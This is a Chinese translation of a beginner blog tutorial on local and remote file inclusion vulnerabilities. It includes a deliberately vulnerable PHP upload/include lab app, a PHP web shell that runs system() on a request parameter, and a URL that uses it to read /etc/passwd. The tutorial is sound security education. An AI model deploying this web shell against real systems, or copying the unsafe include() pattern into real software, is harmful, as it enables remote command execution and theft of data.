


# 如何利用文件包含漏洞:初学者入门。—堆栈零

> 原文：<https://infosecwriteups.com/how-to-exploit-file-inclusion-vulnerabilities-a-beginners-introduction-stackzero-a55267b5fafb?source=collection_archive---------0----------------------->


> 这是我博客文章的摘要:[https://stackzero.net/file-inclusion-introduction/](https://stackzero.net/file-inclusion-introduction/)

在本文中，我们将探究文件包含漏洞利用的来龙去脉。我们将介绍什么是文件包含漏洞，它们是如何工作的，以及黑客如何利用它。
我将尽可能让初学者容易理解这个文件包含漏洞的介绍。所以你可能不需要对被处理的论点有深入的了解。你应该能够跟随并学习一些东西，不管你的起点是什么。
我想，在本文结束时，您将对文件包含漏洞有一个坚实的了解。
那么让我们开始吧！

# 文件包含漏洞的定义

文件包含漏洞是一种安全缺陷，使得攻击者能够在目标系统上访问/执行任意文件。
我们经常可以在基于用户输入动态包含文件的 web 应用程序中找到这种类型的漏洞。
缺乏适当的检查可能会让攻击者获得对敏感数据的未授权访问。
文件包含漏洞难以检测和防范，这使它们成为黑客的常见目标。

# 文件包含是如何工作的？

现在我们已经看到了定义，让我们更深入一点，看看它是如何工作的。

文件包含的工作原理是允许应用程序基于用户输入动态地包含和执行文件。但是为了强调这个概念，试着想象这个例子:
我们考虑一个假设的应用:

*   允许用户上传自己的个人资料图片
*   生成上传图片的链接，并显示在用户的个人资料页面上。

但是，如果应用程序没有正确验证文件类型或文件位置，攻击者可能会:

*   通过上传恶意文件并诱使应用程序执行该文件来利用此漏洞。
*   未经授权访问一些敏感数据

# 存在哪些类型的文件包含漏洞？

文件包含漏洞主要有两种类型:本地文件包含(LFI)和远程文件包含(RFI)。

1.  **本地文件包含** (LFI)当攻击者可以操纵应用程序来包含和执行本地文件系统中的文件时，就会出现漏洞。我们可以在不检查用户输入并动态加载某些文件的 web 应用程序中找到这种特定的漏洞。
    正如我们在相关文章中看到的，当目标应用程序也有一个[无限制文件上传](https://stackzero.net/unrestricted-file-upload-vulnerability/)漏洞时，这可能是极其危险的。
    这两个漏洞的结合可以让攻击者为所欲为。在其他情况下，漏洞可能仍然是危险的，但它可能有一些限制。
2.  **远程文件包含** (RFI)漏洞发生在攻击者可以操纵应用程序从远程位置包含和执行文件时。我们可以在根据用户输入动态包含来自外部源的文件的应用程序中找到此漏洞。例如显示用户生成内容的网站。攻击者可以利用这种类型的漏洞，诱使应用程序包含并执行来自其控制的远程服务器的恶意文件。

换句话说:

*   **LFI** 允许在本地文件系统中包含文件
*   使用 **RFI** 文件可以在远程服务器上。

# 目录路径遍历与文件包含

目录路径遍历和文件包含之间的区别不是很明显，所以在这篇介绍中，我想更深入一点！

通过浏览网页，我注意到这两个漏洞引起了一些混乱，所以我将尽力解释它们！

路径遍历和文件包含是相似的，因为它们都涉及操作目标系统的文件系统。但是，它们在被利用的具体方式和针对的漏洞类型方面有所不同。

*   **路径遍历**，也称为目录遍历，是一种允许攻击者访问目标目录结构之外的文件和目录的漏洞。在这种情况下，攻击者操纵请求的文件路径来访问不应该可见的文件或目录。例如，攻击者可以通过访问服务器的根目录并查看他们通常无法访问的敏感文件来利用路径遍历漏洞。
*   **文件包含**另一方面，涉及操作应用程序来包含和执行来自文件系统的文件。

总的来说，虽然路径遍历和文件包含都涉及操纵目标系统的文件系统，但它们针对不同类型的漏洞，其利用方式也有很大不同。
总而言之，目录路径遍历漏洞允许攻击者访问目标目录结构之外的文件和目录，而文件包含漏洞允许攻击者在目标系统上包含并执行任意文件。
所以主要区别就是文件包含，顾名思义，包含一个文件，然后执行它。

# LFI 的例子

即使这只是对文件包含漏洞的介绍，我也想向您展示一个 LFI 的实际例子。
很明显，我会尽量少保留技术部分。

首先，为了利用这个漏洞，我们希望我们的恶意负载进入目标服务器。所以为了模拟一个真实的案例，我想把这个漏洞和已经看到的“[无限制文件上传](https://stackzero.net/unrestricted-file-upload-vulnerability/)”结合起来

下面是一个存在这些漏洞的应用程序示例:

*   本地文件包含
*   无限制文件上传

如果你想在你的机器上运行它，你应该有一个支持 PHP 的 HTTP 服务器( [XAMPP](https://www.apachefriends.org/) 可能是一个有效的选择)。在本教程中，我假设您正在您的 Kali 机器上工作，因此您只需要在您的终端中键入以下内容来安装 PHP，然后使用[内置服务器](https://www.php.net/manual/en/features.commandline.webserver.php):

```
sudo apt install php libapache2-mod-php
```

现在，您可以创建一个名为“index.php”的文件，并在其中编写以下代码:

```
<?php
// include the file passed as GET parameter
if (isset($_GET['file'])) {
    include($_GET['file']);
}

// upload the file
if (isset($_FILES['file'])) {
    move_uploaded_file($_FILES['file']['tmp_name'], 'uploads/' . $_FILES['file']['name']);
}

?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
</head>
<body>
    <div class="container">
        <div class="row">

            <div class="col-md-6">
                <form action="" method="POST" enctype="multipart/form-data">
                    <div class="form-group">
                        <label for="file">Upload file</label>
                        <input type="file" class="form-control" name="file" id="file">
                    </div>
                    <button type="submit" class="btn btn-primary">Submit</button>
                </form>
            </div>
        </div>
    </div>
</body>
</html>
```

这是一个 PHP 脚本:

*   处理文件上传
*   如果设置了名为`file`的`GET`参数，则包含一个文件
*   检查`$_GET`超全局数组中是否设置了`file`参数
*   如果是，脚本将包含参数指定的文件。
*   接下来，脚本通过检查`file`元素是否设置在`$_FILES`超全局数组中来检查文件是否已经通过`POST`请求上传
*   如果已经上传了一个文件，脚本会将上传的文件移动到`uploads/`目录，并给它上传文件的原始名称。
*   然后，该脚本输出一个带有文件上传表单的 HTML 文档。

该表单使用`POST`方法，并将`enctype`属性设置为`"multipart/form-data"`，以允许文件上传。在表单提交时，服务器执行我们发送的文件。

这很简单，但在继续之前，让我们通过在终端上键入以下命令来创建一个名为“uploads”的目录:

```
mkdir uploads
```

现在我们可以用下面的命令执行简单的 PHP 服务器:

```
php -S 0.0.0.0:8000 -t .
```

最后，这是在我们的浏览器中输入`http://<TARGET_IP>:8000`的结果



现在，您可以寻找一个后门，或者自己创建一个，我将使用此地址中的一个，代码如下:

```
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?><?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; } ?>
```

所以让我们把它和表单一起上传，之后，它就在“uploads”文件夹里面了，这样我们就可以通过键入这样的 URL 来执行 cat 或任何我们想要的东西了:

`[http://192.168.1.110:8000/?file=uploads/payload.php&cmd=cat%20/etc/passwd](http://192.168.1.110:8000/?file=uploads/payload.php&cmd=cat%20/etc/passwd)`

在这种情况下，它会提示/etc/passwd 的内容。



很容易理解如何利用这一点来彻底摧毁系统。

# 结论

总之，文件包含漏洞是对 web 应用程序安全的严重威胁。这些漏洞使得攻击者能够在目标系统上包含和执行任意文件，从而有可能获得对敏感数据的未经授权的访问或以其他方式危害系统。正如我们在上面的例子中看到的，文件包含漏洞很难检测和防范，这使它们成为黑客的常见目标。因此，组织必须采取措施保护其系统免受文件包含漏洞的攻击，并定期监控潜在的攻击。通过这样做，他们可以保护自己的系统，并防止代价高昂的破坏性违规。

我希望您喜欢这篇关于文件包含的介绍。如果你觉得我的工作有用，请继续看我的[博客](http://stackzero.net)(也许把它添加到你的收藏夹)并关注我所有的社交资料！

在 medium 上关注我，接收我的新文章。如果你想订阅 Medium，可以考虑使用我的推荐链接，这对你来说不是额外的费用，但对我来说是一个很大的帮助。

[](https://medium.com/@stackzero/membership) [## 用我的推荐链接加入媒体- StackZero

### 我们的最新报道(以及数以千计的其他报道)一经发布，您就可以立即获得。成为会员后，您将获得所有权限…

medium.com](https://medium.com/@stackzero/membership) 

# 您可能喜欢的其他文章:

[](/unrestricted-file-upload-a-common-bug-with-a-high-potential-revenue-on-hackerone-stackzero-dcf71e56e48b) [## 无限制的文件上传:HackerOne 上一个潜在收益很高的常见 Bug！—堆栈零

### 解释什么是无限制文件上传漏洞，以及如何在实验室中使用 DVWA 利用该漏洞。

infosecwriteups.com](/unrestricted-file-upload-a-common-bug-with-a-high-potential-revenue-on-hackerone-stackzero-dcf71e56e48b) [](https://medium.com/codex/wanna-bet-that-csrf-is-not-as-hard-as-you-think-905ec7e03609) [## 想打赌 CSRF 没有你想的那么难吗？

### 介绍 CSRF 攻击，并举例说明黑客如何利用会话来准备一些…

medium.com](https://medium.com/codex/wanna-bet-that-csrf-is-not-as-hard-as-you-think-905ec7e03609) [](/guess-your-enemies-passwords-with-python-brute-force-attack-99352e65ec8a) [## 用 Python 猜测敌人的密码(暴力攻击)

### 阅读完本文后，您将能够使用您的 python 技能来构建一个暴力攻击的基本工具

infosecwriteups.com](/guess-your-enemies-passwords-with-python-brute-force-attack-99352e65ec8a) [](/learn-sql-injection-in-practice-by-hacking-vulnerable-application-stackzero-ef7931c72aec) [## 通过入侵易受攻击的应用程序在实践中学习 SQL 注入！—堆栈零

### 通过利用一个用 python 构建的故意易受攻击的 web 应用程序，在实践中理解 SQL 注入

infosecwriteups.com](/learn-sql-injection-in-practice-by-hacking-vulnerable-application-stackzero-ef7931c72aec) [](https://medium.com/codex/xss-in-practice-how-to-exploit-xss-in-web-applications-walktrought-into-google-xss-game-c939f30005ea) [## 实践中的 XSS:如何在网络应用中开发 XSS(走进谷歌 XSS 游戏)——

### 理解的最好方法是实践。通过利用 Google 中一些易受攻击的表单，在实践中学习 xss

medium.com](https://medium.com/codex/xss-in-practice-how-to-exploit-xss-in-web-applications-walktrought-into-google-xss-game-c939f30005ea) 

*原载于 2022 年 12 月 15 日*[*【https://stackzero.net】*](https://stackzero.net/file-inclusion-introduction/)*。*

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！